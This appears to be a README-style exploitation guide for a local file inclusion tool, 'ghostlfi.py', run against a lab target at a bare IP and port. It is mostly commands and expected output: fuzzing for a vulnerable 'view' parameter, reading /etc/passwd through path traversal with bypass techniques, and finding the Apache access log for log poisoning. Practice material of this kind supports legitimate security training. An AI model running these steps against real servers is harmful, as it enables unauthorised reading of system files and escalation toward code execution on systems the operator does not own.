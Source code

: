 # ✅ EXPLOITATION GUIDE 

## Paramater Fuzzing

```
python3 ghostlfi.py -u http://94.237.57.211:45888/index.php --fuzz-params
```

## 🎯 Discovery Complete!

```
[+] Found 1 vulnerable parameter(s):
  - view
```

---

## 🚀 NEXT STEPS - Complete Exploitation

### Step 1: Verify LFI with File Fuzzing
```bash
python3 ghostlfi.py \
  -u http://94.237.57.211:45888/index.php \
  -p view \
  --fuzz-files

# This will:
# - Test 75+ sensitive files
# - Try 9 bypass techniques per file
# - Show readable files
# - Categorize findings (Configs/Logs/Sensitive)
```

**Expected Output:**
```
[FUZZING] Advanced File Discovery
[*] Testing 75 files...
[✓] Readable: /etc/passwd (via ../../../../etc/passwd)
[✓] Readable: /etc/hosts
[✓] Readable: /var/log/apache2/access.log

[LOGS] 1 log files (poisoning possible):
  - /var/log/apache2/access.log
```

---

### Step 2: Complete Reconnaissance
```bash
python3 ghostlfi.py \
  -u http://94.237.57.211:45888/index.php \
  -p view \
  --fuzz-all

# This will:
# - Fuzz files (75+ payloads)
# - Find logs (for poisoning)
# - Discover webroot
# - Show exploitation paths
```

---